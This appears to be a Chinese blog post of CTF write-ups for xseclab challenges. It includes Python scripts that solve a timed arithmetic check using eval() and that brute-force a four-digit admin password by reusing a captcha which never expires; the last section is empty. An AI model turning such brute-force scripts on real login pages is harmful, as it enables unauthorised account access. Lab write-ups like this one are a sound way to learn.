 title: 网络信息安全攻防
author: Qianye
abbrlink: 53139f85
tags:
  - ctf
categories:
  - ctf
date: 2018-02-24 14:55:00
---

以前做的时候，挺多不会做的，这次卷土重来，重新刷一下！





# 脚本关

## 快速口算

```bash
import requests
import re
url="http://lab1.xseclab.com/xss2_0d557e6d2a4ac08b749b61473a075be1/index.php"
session=requests.session()
regular=r'[0-9+*()]+[)]'
header={'Cookie':'PHPSESSID=98f76f8684f350fd7c311decb810cdf8'}
res=session.get(url,headers=header)
print(res.content)
chen=re.compile(regular)
obj=chen.findall(res.content.decode('utf-8'))
print(obj)
html=eval(obj[0])
data={'v':html}
r=session.post(url,data=data,headers=header)
print(r.content)

```
## 逗比验证码第一期
该验证码登入一次后，没有失效，再次登入用此验证码，还能生效。

```bash
import requests
import re
s=requests.session()
url="http://lab1.xseclab.com/vcode1_bcfef7eacf7badc64aaf18844cdb1c46/login.php"
for pwd in range(1000, 10000):
    payload = {'username': 'admin', 'pwd': pwd, 'vcode': '83HE'}
    header={'Cookie':'PHPSESSID=98f76f8684f350fd7c311decb810cdf8'}
    r=s.post(url,data=payload,headers=header)
    print(r.content)
    if 'error' not in r.content.decode('utf-8'):
        print("正确的密码为:")
        print(pwd)
        print(r.content)
        break
    else:
        print("正在尝试爆破")
        print(pwd)

```
## 逗比验证码第二期
```bash
```